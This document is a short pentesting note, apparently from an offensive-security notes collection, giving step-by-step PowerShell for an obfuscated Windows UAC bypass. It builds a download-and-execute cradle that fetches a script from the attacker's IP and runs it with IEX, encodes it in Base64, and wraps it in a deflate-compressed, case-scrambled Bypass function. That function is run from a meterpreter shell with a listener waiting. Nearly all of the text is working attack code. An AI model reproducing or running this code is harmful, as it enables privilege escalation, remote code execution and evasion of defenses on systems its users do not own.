 # Heavily Obfuscated UAC Bypass
Thanks to [saulgoodman](https://github.com/saulg00dmin) for pointing out this technique.

Source: https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/UAC-Bypass.md

1. Prepare command to be executed:

```powershell
$ipAddress = (ip addr show tun0 | grep inet | head -n 1 | cut -d ' ' -f 6 | cut -d '/' -f 1)
$text = "(New-Object System.Net.WebClient).DownloadString('http://$ipAddress/run3.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
exit
```

2. Insert the Base64 blob into the `code` variable like the below:

```powershell
$code = "KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMAA3AC8AcgB1AG4AMwAuAHQAeAB0ACcAKQAgAHwAIABJAEUAWAA=" 
```

3. Create the `Bypass` function:

```powershell
function Bypass {
[CmdletBinding()]
param (
[Parameter (Position=0, Mandatory = $True)]
[string]$code )

(nEw-OBJECt  Io.CoMpreSsion.DEflateSTrEaM( [SyStem.io.memoRYSTReaM][convErT]::fromBaSE64STriNg( 'hY49C8IwGIT/ykvoGjs4FheLqIgfUHTKEpprK+SLJFL99zYFwUmXm+6ee4rzcbti3o0IcYDWCzxBfKSB+Mldctg98c0TLa1fXsZIHLalonUKxKqAnqRSxHaH+ioa16VRBohaT01EsXCmF03mirOHFa0zRlrFqFRUTM9Udv8QJvKIlO62j6J+hBvCvGYZzfK+c2o68AhZvWqSDIk3GvDEIy1nvIJGwk9J9lH53f22mSdv') ,[SysTEM.io.COMpResSion.coMPRESSIONMoDE]::DeCompress ) | ForeacH{nEw-OBJECt Io.StReaMrEaDer( $_,[SySTEM.teXT.enCOdING]::aSciI )}).rEaDTOEnd( ) | InVoKE-expREssION
}
```

4. Then execute `Bypass` in the meterpreter shell make sure you have a listener running:

```powershell
Bypass $code
```
